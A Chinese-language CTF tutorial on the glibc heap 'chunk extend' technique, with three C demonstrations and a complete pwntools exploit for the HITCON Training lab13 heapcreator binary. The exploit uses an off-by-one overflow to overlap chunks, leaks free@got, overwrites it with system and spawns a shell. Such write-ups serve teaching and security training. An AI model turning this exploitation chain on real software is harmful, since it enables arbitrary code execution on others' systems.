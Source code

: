 
title: Chunk Extend

date: 2018-04-11 17:35:45

categories:
- CTF
- Chunk-Extend


chunk extend/shrink 是堆漏洞的一种常见的利用手法，与其他堆漏洞的利用相同，chunk extend/shrink 攻击同样需要有可以控制 malloc_chunk 的漏洞。这种利用方法需要以下的先决条件：

- 程序中存在基于堆的漏洞
- 漏洞可以使得 malloc_chunk 能够被攻击者控制



## 原理

该技术依赖于 ptmalloc(aka glibc) 获取 malloc_chunk 的各种属性的宏。

在 ptmalloc 中，获取下一 chunk 块地址即使用当前块指针加上当前块大小，

在 ptmalloc 中，获取前一 chunk 块地址即使用malloc_chunk->prev_size获取前一块大小，然后使用本 chunk 地址减去所得大小。

一般来说，我们很少见到进行 chunk shrink 的操作。所以这里主要介绍 chunk extend 的利用。



## 基本示例1

简单来说，该利用的效果是通过更改第一个块的大小来控制第二个块的内容。

```c
int main(void){
    void *ptr,*ptr1;
    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk
    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域
    free(ptr);
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```



## 基本示例2

以下这个示例中，我们使用 0x80 这个大小来分配堆（作为对比，fastbin 默认的最大的 chunk 可使用范围是0x70）。

因为分配的 size 不处于 fastbin 的范围，因此在释放时如果与 top chunk 相连会导致和top chunk合并。所以我们需要额外分配一个chunk，把释放的块与top chunk隔开。

```c
int main(){
    void *ptr,*ptr1;
    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并
    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);  //释放后，chunk1 把 chunk2 的内容吞并掉并一起置入unsorted bin
    ptr1=malloc(0xa0);
    //再次进行分配的时候就会取回 chunk1 和 chunk2 的空间，此时我们就可以控制 chunk2 中的内容。
}
```



## 基本示例3

示例3是在示例2的基础上进行的，这次我们先释放 chunk1，然后再修改 unsorted bin 中的 chunk1 的size域。

```c
int main(){
    void *ptr,*ptr1;
    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2
    free(ptr);//首先进行释放，使得chunk1进入unsorted bin
    *(int *)((int)ptr-0x8)=0xb1;//然后篡改chunk1的size域 , 大小包含chunk1和chunk2
    //再进行 malloc 分配就可以得到 chunk1+chunk2 的堆块，从而控制了chunk2 的内容。
    ptr1=malloc(0xa0); 
}
```



## Chunk Extend/Shrink 可以做什么

一般来说，这种技术并不能直接控制程序的执行流程，但是可以导致 chunk overlapping*，*所以我们可以完整的控制这个堆块 chunk 中的内容。如果 chunk 存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。**如果不存在类似的域也可以通过控制 chunk header 中的数据来实现 fastbin attack 等利用。**



## 例子 HITCON Trainging lab13

### 基本功能

程序大概是一个自定义的堆分配器，每个堆主要有两个成员：大小与内容指针。主要功能如下

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会**存在 off by one 的漏洞**。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# 覆盖之后释放：
# 会出现 30(低地址) 和 10(高地址) 大小的空闲快
# Create(0x30) 可以实现 覆盖 结构体的Content 指针。
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# 创建之后，结构体在高地址，Content块在低地址，通过写入Content覆盖结构体的指向的Content块为Free()。
# 然后向Content写入地址，即可替换free()地址。

# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

![1](1.png)

